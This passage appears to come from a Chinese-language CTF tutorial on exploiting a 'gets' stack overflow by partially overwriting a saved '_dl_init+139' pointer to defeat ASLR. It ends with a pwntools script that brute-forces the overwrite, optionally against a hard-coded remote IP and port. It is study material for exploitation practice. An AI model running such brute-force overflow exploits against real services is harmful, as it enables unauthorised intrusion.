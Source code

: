 而我們覆蓋字節的時候必須覆蓋整數倍個數，即至少會覆蓋 3 個字節，而我們再來看看`__libc_start_main+240` 的地址 `0x7ffff7a2d830`，如果覆蓋3個字節，那麼就是 `0x7ffff700xxxx`，已經小於了 libc 的基地址了，前面也沒有刻意執行的代碼位置。

一般來說 libc_start_main 在 libc 中的偏移不會差的太多，那麼顯然我們如果覆蓋 `__libc_start_main+240` ，顯然是不可能的。

而 ld 的基地址呢？如果我們覆蓋了棧上`_dl_init+139`，即爲`0x7ffff700xxxx`。而觀察上述的內存佈局，我們可以發現`libc`位於 `ld` 的低地址方向，那麼在隨機化的時候，很有可能 libc 的第 3 個字節是爲`\x00` 的。

舉個例子，目前兩者之間的偏移爲

```
0x7ffff7dd7000-0x7ffff7a0d000=0x3ca000
```

那麼如果 ld 被加載到了 `0x7ffff73ca000`，則顯然 `libc` 的起始地址就是`0x7ffff7000000`。

因此，我們有足夠的理由選擇覆蓋棧上存儲的`_dl_init+139`。那麼覆蓋成什麼呢？還不知道。因爲我們還不知道 libc 的庫版本是什麼，，

我們可以先隨便覆蓋覆蓋，看看程序會不會崩潰，畢竟此時很有可能會執行 libc 庫中的代碼。

```python
from pwn import *
context.terminal = ['tmux', 'split', '-h']
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
elfpath = './gets'
context.binary = elfpath

elf = ELF(elfpath)
bits = elf.bits


def exp(ip, port):
    for i in range(0x1000):
        if args['REMOTE']:
            p = remote(ip, port)
        else:
            p = process(elfpath, timeout=2)
        # gdb.attach(p)
        try:
            payload = 0x18 * 'a' + p64(0x40059B)
            for _ in range(2):
                payload += 'a' * 8 * 5 + p64(0x40059B)
            payload += 'a' * 8 * 5 + p16(i)
            p.sendline(payload)
            data = p.recv()
            print data
            p.interactive()
            p.close()
        except Exception:
            p.close()
            continue


if __name__ == "__main__":
    exp('106.75.4.189', 35273)
```
